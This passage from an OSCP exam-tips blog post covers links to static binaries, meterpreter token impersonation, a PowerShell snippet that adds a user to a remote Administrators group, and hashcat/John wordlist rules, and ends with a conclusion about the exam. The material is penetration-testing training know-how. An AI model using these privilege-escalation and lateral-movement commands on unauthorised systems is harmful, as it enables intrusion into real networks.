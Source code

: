 ### 19. Looking for statically compiled tools?

https://github.com/ernw/static-toolbox

https://github.com/andrew-d/static-binaries

### 20. Got SeImpersonate?

Use meterpreter incognito:

```
load incognito
list tokens -u
impersonate_token <high privileges token>
```

If the token you obtained is on the domain, you can pivot to other targets where the AD user has local administration privileges. Use powershell to remotely add a user using the token you obtained:

```cmd
$Computername = <Your target>
$Username = <Your account>
$GroupName = "Administrators"
$DomainName = $env:USERDOMAIN
$Group = [ADSI]"WinNT://$ComputerName/$GroupName,group"
$User = [ADSI]"WinNT://$DomainName/$Username,user"
$Group.Add($User.Path)
```

Or try your chance with [JuicyPotato](https://ohpe.it/juicy-potato/)!

### 21. Want to use hashcat and John’s great rules list to generate custom wordlists locally?

```
hashcat --force <wordlist> -r /usr/share/hashcat/rules/dive.rule --stdout >> out.wl
john --wordlist=<wordlist> --rules --stdout > out.wl
```

You can also use [this](https://github.com/NotSoSecure/password_cracking_rules) wordlist.

### 22. Struggling to get NT SYSTEM?

Remember, you have **1** shot at using Metasploit/Meterpreter, so why don’t you just use

![_config.yml](https://therealunicornsecurity.github.io/images/OSCP/haxor.jpg)

I chose to use mine to get a privileged shell to the AD’s network entry point. It was actually quite useful as it allowed me to privesc quickly using meterpreter, and then pivot and scan with chisel and naabu.

# Conclusion

I definitely had a lot of fun on the lab and during the exam too. I was expecting the challenges to be too “CTF” like, and based on riddles rather than seen-in-the-wild scenarios, but it wasn’t really the case. In the end I feel like the OSCP has probably gotten easier with the inclusion of the AD set. I do think it brings some realism, as ADs are generally quite easy to root.
